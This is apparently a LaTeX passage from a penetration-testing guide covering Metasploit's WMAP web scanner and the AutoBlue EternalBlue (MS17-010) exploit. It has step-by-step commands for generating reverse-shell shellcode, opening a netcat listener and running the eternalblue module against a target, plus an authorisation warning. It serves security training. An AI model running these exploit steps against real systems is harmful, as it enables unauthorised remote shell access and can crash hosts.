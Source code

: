 \section{WMAP --- Web Application Vulnerability Scanning}
\label{sec:wmap}

WMAP is a web application scanner built into Metasploit. It runs HTTP-focused
auxiliary modules against a target web server.

\begin{termbox}
service postgresql start && msfconsole
setg RHOST target_ip
load wmap
wmap_sites -a target_ip          # Add site
wmap_sites -l                    # List added sites
wmap_targets -t http://target_ip # Set target
wmap_run -t                      # List modules that will run
wmap_run -e                      # Execute scan
wmap_vulns -l                    # View found vulnerabilities
\end{termbox}

\section{AutoBlue --- Manual EternalBlue Alternative}
\label{sec:autoblue}

AutoBlue is a standalone Python script that manually exploits MS17-010 without
Metasploit. Useful when Metasploit's module does not work or when avoiding
automated payloads.

\begin{termbox}
# Clone the repository
git clone https://github.com/3ndG4me/AutoBlue-MS17-010
cd AutoBlue-MS17-010/shellcode

# Generate the shellcode
./shell_prep.sh
LHOST=my_ip
LPORT=any_port
1        # Select regular shell

# The script generates sc_x86.bin or sc_x64.bin depending on architecture
# Set up listener
nc -nvlp 1234

# Run the exploit (Metasploit module for comparison)
use exploit/windows/smb/ms17_010_eternalblue
set RHOST target_ip
set LHOST my_ip
set LPORT listening_port
run
\end{termbox}

\begin{warnbox}
Do not run EternalBlue exploits on production systems without explicit authorisation.
Targeting kernel space memory can crash the system. Always confirm the target is
a lab or authorised test environment.
\end{warnbox}

